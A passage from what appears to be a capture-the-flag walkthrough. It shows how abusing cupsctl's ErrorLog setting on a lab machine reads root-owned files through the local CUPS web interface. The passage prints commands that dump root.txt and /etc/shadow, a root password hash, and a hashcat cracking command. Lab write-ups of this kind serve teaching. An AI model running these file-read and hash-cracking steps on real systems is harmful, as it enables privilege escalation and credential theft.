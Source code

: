 [This
article](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read)
does a really nice job of both showing how to run the Metasploit module,
and breaking down how it might fail.

Looking at [the exploit
source](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/multi/escalate/cups_root_file_read.rb),
it's using `cupsctl` (saved in the `ctl_path` variable) in a current
session to set the error log to a different file (`datastore['FILE']`):



    cmd_exec("#{ctl_path} ErrorLog=#{datastore['FILE']}")



#### Read Flag

The first thing I can do is get `root.txt`. I'll set it as the error
log:



    lp@antique:~$ cupsctl ErrorLog=/root/root.txt



Now I'll just request that same URL:



    lp@antique:~$ curl 127.0.0.1:631/admin/log/error_log?
    b7d0a7d5ede96350d003e590c241cdc9



It works!

#### Shell Failures

I am able to read `/etc/shadow` to get the hashes of users on the
filesystem:



    lp@antique:/dev/shm$ cupsctl ErrorLog=/etc/shadow
    lp@antique:/dev/shm$ curl 127.0.0.1:631/admin/log/error_log?
    root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
    daemon:*:18375:0:99999:7:::
    bin:*:18375:0:99999:7:::
    ...[snip]...



The only user with a hash is root. I can try to crack it using
`hashcat`, putting that full line into a file (`hash`), and running:



    $ /opt/hashcat-6.2.5/hashcat.bin hash /usr/share/wordlists/rockyou.txt --user

